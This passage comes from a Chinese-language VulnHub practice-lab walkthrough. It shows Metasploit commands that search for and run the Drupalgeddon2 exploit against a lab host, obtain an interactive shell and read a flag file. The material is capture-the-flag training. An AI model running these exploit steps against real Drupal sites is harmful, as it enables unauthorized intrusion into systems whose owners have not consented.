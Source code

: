 ```
使用msf寻找相关cms漏洞,使用2018年这个payload攻击脚本。
search drupal
```

![image-20241207012329419](vulnhub靶场实战/image-20241207012329419.png)	

```
运行msf恶意脚本获得掌控权。
use exploit/unix/webapp/drupal_drupalgeddon2
set rhost 192.168.15.137
run
```

![image-20241207012505516](vulnhub靶场实战/image-20241207012505516.png)	

```
获得交互shell.
```

![image-20241207012659493](vulnhub靶场实战/image-20241207012659493.png)	

```
访问该用户的flag1.txt文件得到提示，得知cms系统会有一个配置文件。
```
